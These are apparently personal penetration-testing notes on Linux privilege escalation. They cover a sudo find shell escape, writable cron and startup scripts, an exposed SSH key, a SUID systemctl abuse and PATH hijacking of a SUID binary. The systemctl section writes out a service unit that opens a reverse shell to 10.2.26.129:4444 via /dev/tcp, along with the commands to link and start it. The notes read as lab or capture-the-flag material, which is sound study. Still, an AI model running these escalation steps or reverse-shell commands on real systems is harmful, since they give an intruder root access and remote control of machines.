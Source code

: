 ### sudo in find
```bash
sudo find /var/log -name kern.log  -exec /bin/bash -i \;
```

## Abusing Permissions.
Look at startup scripts, possible cron jobs, user .bashrc's etc. and see if anythin is called we can write to. It might be an errant chmod -R

 chmod is either your best friend or your worst enemy.

## scenario:
.ssh is in the backup directory. key might be the trusted key. 


### By default home direcotry is created with world readable. 

## SUID

### SUID /bin/systemctl
create revshell.service as:
```bash
revshell.service
[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.2.26.129/4444 0>&1"
[Install]
WantedBy=multi-user.target

```
### systemctl
```bash
systemctl link /tmp/revshell.service
Created symlink from /etc/systemd/system/revshell.service to /tmp/revshell.service.
$ systemctl enable --now /tmp/daya.service
Created symlink from /etc/systemd/system/multi-user.target.wants/revshell.service to /tmp/revshell.service.
Job for daya.service failed because the control process exited with error code. See "systemctl status revshell.service" and "journalctl -xe" for details.

It seems I don't even have to enable the service. linking is fine. 
systemctl start revshell.service

```
After it runs successfully you will get reverse shell back to kali.

## Abusing setuid 
```bash 
find /usr/bin -perm -4000
checkHost program is found. 
ltrace checkHost 8.8.8.8
shows: system("ping -c 1 8.8.8.8 2>&1 |grep tra".....)
Here we are executing someting on the shell and pipe to that grep and the problem is that here is no path. We can control the path.  
vi grep 
export PATH=.:$PATH (Grab any command from my directory first and go then go to search the rest of the path)
checkhost 8.8.8.8 (It will use our version of the grep.) It will absorb any path that I will give. This is the beatuy of this attack. 
vi grep
```
